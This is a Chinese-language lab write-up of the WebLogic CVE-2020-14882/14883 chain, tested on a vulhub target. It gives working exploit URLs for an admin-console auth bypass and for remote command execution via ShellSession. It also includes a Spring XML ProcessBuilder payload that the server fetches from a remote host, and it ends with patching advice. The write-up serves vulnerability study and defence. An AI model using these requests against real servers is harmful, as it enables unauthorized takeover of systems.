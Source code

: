 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：Weblogic 管理控制台未授权远程命令执行漏洞

<!-- more -->

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

Weblogic 是 Oracle 公司推出的 J2EE 应用服务器，Oracle WebLogic Server 多版本的 Oracle Fusion Middleware 存在安全漏洞，该漏洞使未经身份验证的攻击者可以通过 HTTP 访问网络，从而破坏 Oracle WebLogic Server。在 2020 年 10 月的更新中，Oracle 官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是 CVE-2020-14882 和 CVE-2020-14883。

CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

---

### 漏洞危害

远程代码执行漏洞 （CVE-2020-14882）POC 已被公开，未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。

---

### 影响范围

- weblogic 10.3.6.0.0
- weblogic 12.1.3.0.0
- weblogic 12.2.1.3.0
- weblogic 12.2.1.4.0
- weblogic 14.1.1.0.0

---

## 漏洞利用

---

### 靶机环境

vulhub/weblogic/CVE-2020-14882

---

### 利用方法 1

**探测确认**

使用 weblogicScanner(https://github.com/0xn0ne/weblogicScanner)探测是否存在该漏洞

```
python3 ws.py -v CVE-2020-14882 -t 192.168.1.189:7001
```

![01](./img/weblogic_CVE-2020-14882/01.png)

首先测试权限绕过漏洞（CVE-2020-14882），访问以下 URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![02](./img/weblogic_CVE-2020-14882/02.png)

成功登录到后台页面。

虽然利用漏洞 CVE-2020-14882 成功登录到后台页面，但当前用户是低权限用户，并不能执行命令。此时需要用到第二个漏洞 CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下 URL，即可利用 com.tangosol.coherence.mvel2.sh.ShellSession 执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

![04](./img/weblogic_CVE-2020-14882/04.png)

页面显示 404，回到服务器端执行如下命令登录到容器里面

```
docker exec -i -t 容器id /bin/bash
```

![03](./img/weblogic_CVE-2020-14882/03.png)

可以看到 success1 成功创建，命令执行成功。

这个利用方法只能在 Weblogic 12.2.1 以上版本利用，因为 10.3.6 并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

### 利用方法 2

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下 URL，即可让 Weblogic 加载这个 XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://10.82.234.169:8000/rce.xml")
```

![06](./img/weblogic_CVE-2020-14882/06.png)

这个利用方法也有自己的缺点，就是需要 Weblogic 的服务器能够访问到恶意 XML。

---

## 威胁防护建议

1. Oracle 官方最新漏洞修复补丁；
2. 临时关闭后台/console/console.portal 的对外访问
